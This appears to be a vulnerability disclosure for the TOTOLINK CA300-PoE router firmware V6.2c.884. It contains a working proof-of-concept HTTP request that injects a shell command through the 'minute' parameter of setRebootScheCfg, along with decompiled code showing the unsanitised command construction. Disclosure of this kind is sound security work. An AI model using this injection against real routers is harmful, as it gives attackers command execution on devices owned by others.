



# TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the minute parameter in the function setRebootScheCfg

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setRebootScheCfg`.

## 

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html


## Affected version

**Version: V6.2c.884**


## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" :"setting/setRebootScheCfg","mode" : "1", "minute": "';mkdir /minute_1111;'"}
```

Folder created successfully



```
int __fastcall setRebootScheCfg(int a1, int a2, int a3)
{
  int mode_v; // $s5
  int week_v; // $s3
  const char *hour_v; // $fp
  const char *minute_v; // $s7
  int recHour_v; // $s0
  int v9; // $v0
  int v11; // $v0
  int i; // $s0
  _BYTE *v13; // $v0
  char *v14; // $a0
  int v15; // $s0
  int v16; // $s0
  char v19[256]; // [sp+2Ch] [-244h] BYREF
  char v20[128]; // [sp+12Ch] [-144h] BYREF
  char v21[128]; // [sp+1ACh] [-C4h] BYREF
  int v22[16]; // [sp+22Ch] [-44h] BYREF

  memset(v20, 0, sizeof(v20));
  memset(v21, 0, sizeof(v21));
  memset(v19, 0, sizeof(v19));
  mode_v = websGetVar(a2, "mode", "0");
  week_v = websGetVar(a2, "week", "");
  hour_v = (const char *)websGetVar(a2, "hour", "");
  minute_v = (const char *)websGetVar(a2, "minute", "");
  recHour_v = websGetVar(a2, "recHour", "0");
  cs_uci_set("system.reboot.mode", mode_v);
  cs_uci_set("system.reboot.week", week_v);
  cs_uci_set("system.reboot.hour", hour_v);
  cs_uci_set("system.reboot.minute", minute_v);
  cs_uci_set("system.reboot.recHour", recHour_v);
  cs_uci_commit("system");
  strcpy(v19, "sed -i /reboot/d /etc/crontabs/root");
  CsteSystem(v19, 0);
  CsteSystem("killall sche_reboot", 0);
  v9 = atoi(mode_v);
  if ( v9 == 1 )                                // mode=1
  {
    v11 = atoi(week_v);
    if ( v11 == 255 )
    {
      strcpy(v21, "*");
    }
    else if ( v11 )
    {
      for ( i = 1; i != 8; ++i )
      {
        if ( ((atoi(week_v) >> i) & 1) != 0 )
        {
          sprintf(v20, (const char *)&dword_4404, i);
          strcat(v21, v20);
          strcat(v21, &dword_4408);
        }
      }
      v13 = (_BYTE *)strrchr(v21, 44);
      if ( v13 )
        *v13 = 0;
    }
    sprintf(v19, "echo '%s %s * * %s reboot -f'>> /etc/crontabs/root", minute_v, hour_v, v21);
    v14 = v19;
LABEL_13:
    CsteSystem(v14, 0);
    goto LABEL_3;
  }
  if ( v9 == 2 )
  {
    v15 = atoi(recHour_v);
    if ( v15 > 0 )
    {
      sysinfo(v22);
      v16 = 3600 * v15 - v22[0];
      if ( v16 <= 0 )
      {
        cs_cmd("reboot", 16464, 1);
        goto LABEL_3;
      }
      CsteSystem("killall sche_reboot", 0);
      sprintf(v20, "sche_reboot %ld &", v16);
      v14 = v20;
      goto LABEL_13;
    }
  }
LABEL_3:
  cs_cmd("/etc/init.d/cron", "restart", 2);
  websSetCfgResponse(a1, a3, "0", "reserv");
  return 0;
}
```



